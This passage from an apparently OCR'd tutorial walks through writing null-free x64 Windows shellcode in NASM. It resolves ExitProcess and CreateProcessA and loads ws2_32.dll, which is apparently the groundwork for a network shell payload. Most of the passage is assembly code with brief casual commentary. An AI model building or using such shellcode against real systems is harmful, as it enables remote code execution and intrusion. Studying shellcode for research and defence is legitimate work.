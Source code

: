 ***Locate ExitProcess address***
-

```nasm
;exitprocess
    mov r9, r12                      ; r9 temporarily holds GetProcAddress handle
    mov rcx, rdi                     ; RCX = handle to kernel32.dll (first argument)
    ; Load "ExitProcess" onto the stack
    mov rax, 0x90737365              ; 'ess'
    shl eax, 0x8                     ; 0000000073736500
    shr eax, 0x8                     ; 0000000000737365 terminate our string w/ no nulls present in our shellcode!
    push rax
    mov rax, 0x636F725074697845      ; ExitProc 
    push rax
    mov rdx, rsp                     ; RDX points to "ExitProcess" (second argument)
    sub rsp, 0x30
    call r9                          ; Call GetProcAddress
    add rsp, 0x30
    mov rbx, rax                     ; RBX holds ExitProcess!
```

Starting to see a pattern? 😄  Same as the last API lookup except this time we're looking for **ExitProcess**.

***Locate CreateProcessA address***
-

```nasm
;CreateProcessA
    mov r9, r12                      ; r9 temporarily holds GetProcAddress handle
    mov rcx, rdi                     ; RCX = handle to kernel32.dll (first argument)
    ; Load "CreateProcessA" onto the stack
    mov rax, 0x909041737365636F              ; 'ocessA'
    shl rax, 0x10                     ; 0000000073736500
    shr rax, 0x10                     ; 0000000000737365 terminate our string w/ no nulls present in our shellcode!
    push rax
    mov rax, 0x7250657461657243      ; CreatePr 
    push rax
    mov rdx, rsp                     ; RDX points to "CreateProcessA" (second argument)
    sub rsp, 0x30
    call r9                          ; Call GetProcAddress
    add rsp, 0x30
    mov r13, rax                     ; r13 holds CreateProcessA!
```

Same thing, lol.  I wrote the code this way to make this as easy to understand as I could.  So far not too bad right?  Let's keep going

***Locate Ws2_32 address***
-

```nasm
;ws2_32.dll
    mov rax, 0x90906C6C              ; add "ll" string to RAX
    shl eax, 0x10                    ; 000000006C6C0000
    shr eax, 0x10                    ; 0000000000006C6C
    push rax                         ; push RAX to stack
    mov rax, 0x642E32335F327377      ; Add "ws2_32.d" string to RAX.
    push rax                         ; Push RAX to stack
    mov rcx, rsp                     ; Move a pointer to ws2_32.dll into RCX.
    sub rsp, 0x30
    call r15                         ; Call LoadLibraryA("ws2_32.dll")
    mov r14, rax                     ; holds ws2_32.dll address!!!
```
